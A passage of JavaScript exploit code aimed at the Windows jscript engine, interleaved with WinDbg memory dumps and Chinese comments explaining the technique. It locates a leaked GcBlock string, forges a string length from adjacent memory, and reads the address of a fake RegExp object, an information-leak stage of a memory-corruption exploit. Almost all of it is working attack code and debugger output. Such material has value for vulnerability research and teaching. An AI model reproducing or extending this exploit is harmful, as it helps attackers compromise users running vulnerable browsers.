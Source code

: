 ```
        else
            nrefs[leakIndex] = null;
    }catch(e){}
 
if(leakIndex == -1)
    throw new Error("Could not find GcBlock leak string.");
else{}
 
var fakeRegExpAddr = -1;
 
/*
Reading the content of this VAR.Obj_ptr, this VAR corresponding to a String VAR.
 
0:000> dc 076cf6f8-10
076cf6e8  076c0008 054ebd08 061ebcec 6c011380  ..l...N........l
076cf6f8  00000008 00000000 [061ebb24] 076cf728  ........$...(.l. <- 内存对齐时的variant
076cf708  00000008 00000000 061e8114 076cf6a8  ..............l.
076cf718  00000008 00000000 061eb95c 40300000  ........\.....0@
076cf728  02bb0081 00000002 0770c9f0 076cf748  ..........p.H.l.
076cf738  00000009 00000000 0770a158 00000000  ........X.p.....
076cf748  076c0008 054ebd08 061eb794 6c011380  ..l...N........l
076cf758  00000008 00000000 061eb5cc 076cf788  ..............l.
 
0:000> dc 076cf6f8+2-4
076cf6f6  00086c01 00000000 [bb24]0000 f728[061e]  .l........$...(. <- 借助前面的数据伪造length后的内存，所以为 charCodeAt(4) << 16) | charCodeAt(3)，长度被解释为，0x86c01，符合校验条件
076cf706  0008076c 00000000 81140000 f6a8061e  l...............
076cf716  0008076c 00000000 b95c0000 0000061e  l.........\.....
076cf726  00814030 000202bb c9f00000 f7480770  0@..........p.H.
076cf736  0009076c 00000000 a1580000 00000770  l.........X.p...
076cf746  00080000 bd08076c b794054e 1380061e  ....l...N.......
076cf756  00086c01 00000000 b5cc0000 f788061e  .l..............
076cf766  0008076c 00000000 7d6c0000 f708061e  l.........l}....
 
// fake RegExpObj
0:000> dc 061ebb24
061ebb24  6bfe2b3c 00000001 078b7af0 02bc3588  <+.k.....z...5..
061ebb34  00000000 ffffffff 076caf40 00080000  ........@.l.....
061ebb44  00000000 6bfe78a8 02bbe920 0770c93c  .....x.k ...<.p.
061ebb54  0770caf4 6c071bb8 00000080 00000000  ..p....l........
061ebb64  076cc338 00000000 00000000 00000000  8.l.............
061ebb74  00000000 00000000 00000000 00000000  ................
061ebb84  00000000 00000000 00000000 00000000  ................
061ebb94  00000000 00000000 00000000 00000000  ................
 
0:000> ln 6bfe2b3c
(6bfe2b3c)   jscript!RegExpObj::`vftable'   |  (6bfe2c38)   jscript!NameList::`vftable'
Exact matches:
*/
if(nrefs[leakIndex].charCodeAt)
    fakeRegExpAddr = (nrefs[leakIndex].charCodeAt(4) << 16) | nrefs[leakIndex].charCodeAt(3); // 读取fakeRegExp字符串首地址
 
if(fakeRegExpAddr == -1)
    throw new Error("Failed to leak fake RegExp address.");

```
